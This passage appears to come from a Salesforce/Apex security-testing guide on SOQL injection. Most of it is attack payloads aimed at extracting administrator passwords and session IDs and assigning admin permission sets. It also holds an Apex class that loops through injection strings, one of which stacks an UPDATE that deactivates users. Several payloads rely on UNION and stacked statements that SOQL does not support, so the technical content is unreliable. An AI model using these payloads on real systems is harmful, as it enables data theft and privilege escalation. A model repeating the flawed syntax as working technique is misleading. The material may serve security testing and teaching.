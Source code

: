 ```apex
}
```

**Injection Payloads**:
```sql
-- Data extraction payload
test%' UNION SELECT Id, Password__c FROM User WHERE Profile.Name = 'System Administrator' AND Name LIKE '%

-- Privilege escalation payload  
test%' UNION SELECT Id FROM PermissionSetAssignment WHERE PermissionSet.Name = 'Admin_Rights' AND AssigneeId = '005XX000001b0Qw' AND Id LIKE '%

-- Information disclosure payload
test%' UNION SELECT Id, SessionId__c FROM Custom_Session__c WHERE User__c = '005XX000001b0Qw' AND Id LIKE '%

-- ORDER BY subquery injection
Name (SELECT Name FROM Contact WHERE LastName = 'Smith')
```

**Advanced SOQL Injection Testing**:
```apex
public class SOQLInjectionTester {
    public static void testDynamicQuery(String userInput) {
        try {
            // Test various injection payloads
            List<String> payloads = new List<String>{
                '\' OR Name != \'',
                '\' UNION SELECT Id FROM User--',
                '\'; UPDATE User SET IsActive = false; SELECT Id FROM Account WHERE Name = \'',
                '\' AND (SELECT COUNT() FROM User) > 0 AND Name = \''
            };
            
            for (String payload : payloads) {
                try {
                    String query = 'SELECT Id FROM Account WHERE Name = \'' + payload + '\'';
                    List<SObject> results = Database.query(query);
                    System.debug('Payload successful: ' + payload);
                } catch (Exception e) {
                    System.debug('Payload blocked: ' + payload + ' - ' + e.getMessage());
                }
            }
        } catch (Exception e) {
            System.debug('Testing error: ' + e.getMessage());
        }
    }
}
```

**Impact**: Data exfiltration, authentication bypass, privilege escalation.

### 2. Authorization Bypass in Apex
